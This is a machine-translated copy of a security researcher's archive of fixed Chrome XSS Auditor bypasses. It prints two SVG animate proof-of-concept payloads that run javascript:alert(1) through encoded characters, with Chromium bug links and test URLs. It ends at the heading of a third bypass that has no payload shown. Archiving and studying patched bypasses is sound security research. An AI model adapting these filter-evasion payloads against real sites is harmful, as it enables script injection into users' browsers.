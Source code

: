 - **Translated by:** [*Dr. Google*](https://translate.google.com)<br>
- **Edited by:** [*Mr. Misconception*](https://github.com/MisconceivedSec)<br>
- **Translation [Link](https://github-com.translate.goog/masatokinugawa/filterbypass/wiki/Fixed-Bypass-Archive?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp)**<br>
- **Original [FIle](https://github.com/masatokinugawa/filterbypass/wiki/Fixed-Bypass-Archive)**<br>
---

# XSS Auditor

## Using the SVG animation values ​​attribute (Chrome)

supplement:

PoC 1 fixed in Chrome 59, PoC 2 fixed in Chrome 62.

Reference URL:

- [https://bugs.chromium.org/p/chromium/issues/detail?id=709365](https://bugs.chromium.org/p/chromium/issues/detail?id%3D709365)
- [https://bugs.chromium.org/p/chromium/issues/detail?id=738017](https://bugs.chromium.org/p/chromium/issues/detail?id%3D738017)

PoC 1:

[https://vulnerabledoma.in/bypass/text?q=%3Csvg%3E%3Canimate%20href=%23x%20attributeName=href%20values=%26%23x3000%3Bjavascript:alert(1)%20/%3E%3Ca %20id=x%3E%3Crect%20width=100%20height=100%20/%3E%3C/a%3E](https://vulnerabledoma.in/bypass/text?q%3D%253Csvg%253E%253Canimate%2520href%3D%2523x%2520attributeName%3Dhref%2520values%3D%2526%2523x3000%253Bjavascript:alert(1)%2520/%253E%253Ca%2520id%3Dx%253E%253Crect%2520width%3D100%2520height%3D100%2520/%253E%253C/a%253E)

```html
<svg><animate href=#x attributeName=href values=&#x3000;javascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
```

PoC 2:

[https://vulnerabledoma.in/bypass/text?q=%3Csvg%3E%3Canimate+xlink%3Ahref%3D%23x+attributeName%3Dhref+values%3D%26%23106%3Bavascript%3Aalert%281%29+% 2F%3E%3Ca+id%3Dx%3E%3Crect+width%3D100+height%3D100+%2F%3E%3C%2Fa%3E](https://vulnerabledoma.in/bypass/text?q%3D%253Csvg%253E%253Canimate%2Bxlink%253Ahref%253D%2523x%2BattributeName%253Dhref%2Bvalues%253D%2526%2523106%253Bavascript%253Aalert%25281%2529%2B%252F%253E%253Ca%2Bid%253Dx%253E%253Crect%2Bwidth%253D100%2Bheight%253D100%2B%252F%253E%253C%252Fa%253E)

```html
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
```

## Using half-baked closing tags for script tags (Chrome only)

supplement:

Fixed in Chrome 61.
